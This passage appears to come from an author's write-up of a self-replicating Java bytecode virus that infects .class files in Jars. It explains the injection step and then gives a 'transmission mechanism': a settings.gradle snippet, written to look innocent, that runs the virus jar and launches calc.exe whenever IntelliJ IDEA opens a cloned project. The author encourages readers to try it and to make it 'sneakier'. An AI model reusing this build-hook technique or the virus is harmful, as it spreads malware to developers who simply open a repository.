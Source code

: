 Since our main virus method is never called by any of the other functions we've written, we have to copy the MethodRef 
for that function to the target ourselves. We need to do this to use the invokestatic opcode, which is what we're sticking with
 for execution. As you can see, I horribly bastardized my own code here by adding the newly generated instruction to an item in the destination's HashMap. This is horrible and I'm sorry.
It does however appear to have worked so there's that.

## Transmission Mechanism

One thing I've bundled with this virus is a very simple but effective way to help this virus spread. We know that we're 
interested in infecting .class files inside of Jars, but simply allowing it to happen and spread over time would tkae a while.

After some digging into how we might abuse build systems to spread our code, I stumbled on to the somewhat surprising fact
that it is trivially easy to trigger code execution when somebody clones a gradle project in IntelliJ IDEA. This trick 
probably also works in Android studio. I haven't tried it myself - maybe you should :)

The trick is very simple:

In settings.gradle in your project, place some innocent looking comments and code:
```gradle
task testSuite(type: JavaExec) {
    jar
    classpath = files('build/libs/BytecodeVirus-1.0-SNAPSHOT.jar')
    classpath += sourceSets.main.runtimeClasspath
    main = "Goat"
}

void autoBuild(){
    testSuite
    String classpath = sourceSets
    exec {commandLine 'calc.exe'}

}

build{
    autoBuild();
}
```

We can quickly talk about what this does. The trick is very simple. We can define a custom task for gradle
to run upon build. In IntelliJ IDEA, build is run every time a project is opened. For dramatic effect I've made
this code launch calc.exe but you could easily be much sneakier. ***The result of this obvious issue is that we can
get execution on clone in IntelliJ IDEA.*** Give it a try :)

## End Result 
The end result of this effort is a set of self-replicating bytecode that is only a few steps away from being pretty
weaponizable. There are a lot of improvements I would have made to this code if I had the time, but hopefully a codebase
to create viral code just by using an IDE as normal is enough for now. Hope you enjoyed. Until next time.
